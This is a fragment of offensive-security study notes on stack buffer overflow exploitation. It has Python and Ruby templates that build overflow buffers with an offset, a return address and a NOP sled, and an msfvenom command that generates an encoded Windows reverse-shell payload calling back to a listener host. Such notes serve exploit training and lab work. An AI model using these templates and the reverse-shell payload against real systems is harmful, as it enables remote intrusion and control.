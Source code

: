 ```python
f = open("exploit.txt", "wb") 
f.write(badchars)
f.close()
```

USEFUL PYTHON FUNCTIONS

```python
# Binary-mode writing
bad = b"\x00"
f = open("file.txt", "wb")
f.write(bad)
f.close

# Encode offset to make it binary compatible
offset = "A" * 1804
offset = offset.encode('utf-8')
retn = b"\x42\x42\x42\x42"
padding = b"\x90" * 16
payload = b""
...
f = open("file.txt", "wb")
f.write(offset)
f.write(retn)
f.write(padding)
f.write(payload)
f.close()
```

s4vitar mode use **msf-nasm\_shell** (upgraded command) // choose a module with a base address that does not contain any of our bad characters

{% code overflow="wrap" %}
```bash
# Generating shellcode with msfvenom (Metasploit)
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
https://blog.rapid7.com/2014/12/09/good-bye-msfpayload-and-msfencode/
https://www.offensive-security.com/metasploit-unleashed/msfpayload/
https://www.offensive-security.com/metasploit-unleashed/msfencode/
https://www.rapid7.com/db/modules/encoder/x86/shikata_ga_nai
```
{% endcode %}
{% endtab %}

{% tab title="pry fuzzer" %}
```ruby
# IN CASE THE FUZZER DOES NOT WORK --> install pry on kali
pry --simple-prompt
require 'socket'
s=TCPSocket.new("$IP",$port)
# buffer = prefix + overflow + retn + padding + payload + postfix
s.puts "$STRING_VARIABLE"

# ----------EXPLOIT SCRIPT IN RUBY (exploit.rb)
prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
end = "\r\n"

buffer = prefix + overflow + retn + padding + payload + end

require 'socket'
```